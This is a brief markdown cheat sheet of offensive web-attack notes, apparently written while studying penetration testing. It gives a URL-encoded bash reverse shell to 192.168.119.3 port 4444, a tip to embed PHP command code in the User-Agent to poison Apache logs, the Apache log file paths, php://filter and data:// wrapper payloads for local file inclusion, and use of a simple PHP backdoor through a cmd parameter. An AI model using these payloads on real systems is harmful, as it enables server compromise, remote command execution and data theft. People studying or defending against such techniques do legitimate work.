 Main Idea: Can it interact with the file system?

### URL Encoded RevShell
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

CHANGE THE IP
```
### PHP code to allow commands
![[Pasted image 20240301133842.png]]
EMBED IN USER AGENT
### Location of Apache Log Files
```
Linux: /var/log/apache2/access.log
Windows: \xampp\apache\logs\access.log
```

### PHP Wrappers
Types of php://filter:
1. php://filter/resource={filename} (the basic one)
2. php://filter/convert.base64-encode/resource={filename} (encode output with base64)
Types of php://data:
1. data://text/plain,{whatever command you want to run} (the basic one)
2. data://text/plain;base64,{base64 code and whatever at the back} (encode the code into base64 before execution)

### Remote File Inclusion
within /usr/share/webshells/php, there is a file called simple-backdoor.php

type of usage: http://target.com/simple-backdoor.php?cmd={whatever command you want}